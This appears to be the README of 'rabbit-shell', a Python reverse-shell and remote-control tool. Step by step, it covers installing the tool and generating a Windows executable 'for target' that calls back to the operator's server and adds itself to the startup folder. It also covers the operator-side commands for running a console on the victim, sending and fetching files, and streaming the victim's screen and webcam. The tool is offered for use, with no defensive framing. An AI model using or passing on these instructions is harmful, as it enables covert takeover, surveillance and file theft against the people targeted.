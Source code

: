 ![license](https://img.shields.io/github/license/greedalbadi/rabbit-shell)
![Python](https://img.shields.io/badge/Python-3.9-blue)
# Rabbit-shell

###### Rabbit shell advanced reverse shell tool.

![tool](rabbit_shell\data\images\Capture.png)

##  Installation.



### By pip.
 
```bash
pip install rabbit_shell
```
install using pypi.

or
###  By clone.

```bash
git clone https://github.com/greedalbadi/rabbit-shell.git
cd rabbit-shell
pip install .
```
install using git clone.



## steps.

> 1 - Install rabbit-shell tool.
>
> 2 - Generate your key using `--key` command.
>
> example: `rsb --key`
>
> 3 - run tool on your server using `--server` command along with your server **ip address** and **port** .
>
> example: `rsb --server -a 192.168.0.111 -p 9999`
>
> 4 - Generate exe for target using `--client` along with your server **ip address** and **port** .
>
> example: `rsb --client -a 192.168.0.111 -p 9999`
>
> 5 - now to start controlling target on your main device prefferred on windows run `--auth` command.
>
> example: `rsb --auth -a 192.168.0.111 -p 9999`
>
> - now when your target run your exe will it will be connected and you will can control your target.







# Usage.
```bash
rsb --help
```
print available arguments with a tiny explain or just rsb.

## Run server and start listening.

```bash
rsb --server -a 192.168.0.111 -p 9999
```

> - --server is args container
> - -a is server or device ip address
> - -p is wich port you'll be listening to

###### There'll be a seperate socket for file transfering the port is whaever enter - 1, If main server port 9999

###### file transfer port well be 9998, the files are going to trans to wherever your location is.





## Log to server as author.

```bash
rsb --auth -a 192.168.0.111 -p 9999
```

> - --auth is args container
> - -a is server or device ip address
> - -p is wich port you'll be listening to server and contacts
> - -k (optional) use key

###### connect to your server as an author and control your own clients.



## Generate exe for the target.

```bash
rsb --client -a 192.168.0.111 -p 9999
```

> - --client is args container
> - -a is server or device ip address
> - -p is wich port you'll be listening to


###### This will generate an exe inside a dist directory you may delete build folder, when the exe runs It'll create

###### a shortcut in startup folder if the system is windows.



## Generate new key\insert key\show key.

```bash
rsb --key
```

###### generate a new key and save it in data\basic.py.





## Commands to use from server side.



### To request server information.

```bash
>: server
```

###### Server host and port also the tool version and tool name.

### To list all clients.

```bash
>: list
```

###### List online and offline clients use, device address, and more.

### To set and controll a client console by client use number from the list.

```
>: set 0
```

###### To controle client console you can git client set number from using the command list

###### and use the command >: set (client use number).

### Quit client session.

```bash
>: quit
```

###### Quit client console without losing connection with client, used to things like changing to another set or gain info.

### Send file to client.

```bash
>: file:filename
```

###### 

### Request file from client.

```bash
>: reqfile:filename
```





# stream



##### streaming will be done by wich client is sending frames to the server

##### so make sure that it's one client whom send's stream frames and stop other streams to be safe, after you'r done with the stream stop it using `>: stream:stop` .

### stream current client screen.

```bash
>: stream:screen
```



### stream current client webcam.

```bash
>: stream:cam
```



### stop stream

```bash
>: stream:stop
```

###### make sure you stop the stream when you want to start streaming another client.







## About.

by [@greedalbadi](https://www.instagram.com/greedalbadi/)

This tool uses MIT license.

made with depression <3
